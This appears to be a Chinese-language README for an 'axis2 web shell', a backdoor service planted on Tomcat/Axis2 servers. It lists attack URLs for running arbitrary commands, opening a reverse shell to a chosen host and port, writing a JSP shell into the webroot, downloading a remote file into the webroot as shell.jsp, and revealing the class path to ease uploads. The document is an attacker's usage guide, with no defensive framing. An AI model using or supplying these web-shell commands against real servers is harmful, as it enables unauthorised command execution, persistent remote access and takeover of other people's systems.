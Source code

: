 axis2
=========

axis2 web shell


使用介绍：

1、命令执行
http://1.1.1.1/services/config/exec?cmd=whoami 
(不说了，执行命令。注意:xml换行没有处理好)

2、反弹shell
http://1.1.1.1/services/config/shell?host=1.1.1.1&port=5555 
(Linux则使用bash反弹shell，window则会进行socket执行shell)


3、文件上传
http://1.1.1.1/services/config/upload?path=/opt/tomcat/webapps/ROOT/shell.jsp 
(会把resource目录下面的one.jsp 写成shell.jsp，注意：全路经，带*文件名)


4、文件下载
http://1.1.1.1/services/config/download?url=http://www.ooo.com/mm.txt&path=/opt/tomcat/webapps/ROOT/shell.jsp
(会把这个URL的文件写成shell.jsp，注意：全路经，带*文件名)


5、class目录查看
http://1.1.1.1/services/config/getClassPath
(会显示当前class的路径，方便文件上传)


